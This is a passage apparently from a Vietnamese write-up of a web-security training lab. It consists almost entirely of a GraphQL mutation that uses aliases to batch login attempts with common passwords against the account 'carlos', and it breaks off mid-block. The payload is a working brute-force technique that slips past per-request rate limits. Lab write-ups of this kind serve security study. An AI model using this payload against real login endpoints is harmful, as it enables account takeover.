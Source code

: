 - Tôi sẽ thực hiện bruteforce với mật khẩu như sau

```


    mutation {
        
bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }


bruteforce3:login(input:{password: "qwerty", username: "carlos"}) {
        token
        success
    }


bruteforce4:login(input:{password: "123456789", username: "carlos"}) {
        token
        success
    }


bruteforce5:login(input:{password: "12345", username: "carlos"}) {
        token
        success
    }


bruteforce6:login(input:{password: "1234", username: "carlos"}) {
        token
        success
    }


bruteforce7:login(input:{password: "111111", username: "carlos"}) {
        token
        success
    }


bruteforce8:login(input:{password: "1234567", username: "carlos"}) {
        token
        success
    }


bruteforce9:login(input:{password: "dragon", username: "carlos"}) {
        token
        success
```